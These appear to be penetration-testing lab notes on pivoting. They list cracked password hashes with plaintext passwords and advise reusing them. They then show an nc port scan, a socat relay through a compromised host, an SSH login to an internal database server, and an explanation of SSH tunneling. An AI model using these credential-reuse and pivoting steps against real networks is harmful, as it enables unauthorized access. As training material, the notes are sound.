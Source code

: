 ```bash
	...
	
	{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
	{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
	{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
	...
```


> Record all passwords for use later as they may have been reused.


- After further enumeration, we'll find PGDATABASE01 is also running an SSH server
```bash
nc -zv 10.4.247.63 1-1024 2>&1 | grep succeeded 
	Connection to 10.4.247.63 22 port [tcp/ssh] succeeded!
```

Will now need to create a port forward on CONFLUENCE01 which will allow ourselves to directly SSH into PGDATABASE01
- \*\*NOTE:  Will only work if you add ` &` to end of original socat command.  Otherwise, will be stuck w/in the command and attempting Ctrl+C will cancel your nc session!
```bash
# Kill original socat process
ps aux | grep socat
	conflue+    3157  0.0  0.0   6968  1772 ?        S    00:40   0:00 socat TCP-LISTEN:2345,fork TCP:10.4.153.247:5432
	conflue+    3225  0.0  0.0   6432   656 ?        S    00:42   0:00 grep socat

kill -9 3157

# Create socat tunnel to SSH server
socat TCP-LISTEN:2222,fork TCP:10.4.247.215:22

# In Kali, SSH in
ssh database_admin@192.168.247.63 -p 2222
```


# SSH Tunneling
aka SSH Port Forwarding

Encapsulating one kind of data stream within another as it travels across a network.

Benefits:
- Primarily a tunneling protocol, so it's possible to pass almost any kind of data through an SSH connection.
- Easily blends into the background traffic of network envs
- Often used by network admins for legitimate remote admin purposes
- Flexible port forwarding setups in restrictive network situations
- Common to find client software (or even SSH servers) already installed
- Contents cannot easily be monitored

Difference from previous Port Forwarding:
- Listening and Forwarding were done on the *same endpoint*
- SSH Tunneling
	- SSH connection is made between two endpoints
	- Listening port is opened by the *SSH client*
	- Packets are tunneled through the listening port to the *SSH server*
	- Packets are then forwarded through the server by the socket we specify
